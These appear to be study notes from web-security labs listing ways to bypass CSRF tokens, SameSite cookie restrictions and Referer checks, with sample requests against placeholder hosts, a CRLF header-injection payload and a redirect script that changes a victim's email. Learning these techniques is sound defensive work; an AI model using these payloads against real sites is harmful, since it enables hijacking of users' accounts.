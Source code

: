 

# Bypassing CSRF token validation

### Validation of CSRF token depends on request method

-try diffrent methods

### Validation of CSRF token depends on token being present

-remove paramter

### CSRF token is not tied to the user session

-obtain a token and use it

### CSRF token is tied to a non-session cookie

EX:
```
POST /email/change HTTP/1.1  
Host: vulnerable-website.com  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 68  
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv  
  
csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```


use crlf injection EX :

```
/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
```


### CSRF token is simply duplicated in a cookie

-some applications do not maintain any server-side record of tokens that have been issued

-the application simply verifies that the token submitted in the request parameter matches the value submitted in the cookie-but

-instead duplicate each token within a cookie and a request parameter.

EX:
```
POST /email/change HTTP/1.1  
Host: vulnerable-website.com  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 68  
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa  
  
csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```



# Bypassing SameSite cookie restrictions

### Bypassing SameSite Lax restrictions using GET requests

-craft get link

-method override

### Bypassing SameSite restrictions using on-site gadgets (Strict , Lax )

-find a gadget that results in a secondary request within the same site

EX : DOM-based open redirection.

```html
<script>  
document.location =```https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?  
postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1```;  
</script>
```


### Bypassing SameSite restrictions via vulnerable sibling domains

-xss

-Cross-site WebSocket hijacking


# Bypassing Referer-based CSRF defenses

### Validation of Referer depends on header being present

 HTML page that hosts the CSRF attack contain:  
<meta name="referrer" content="never">

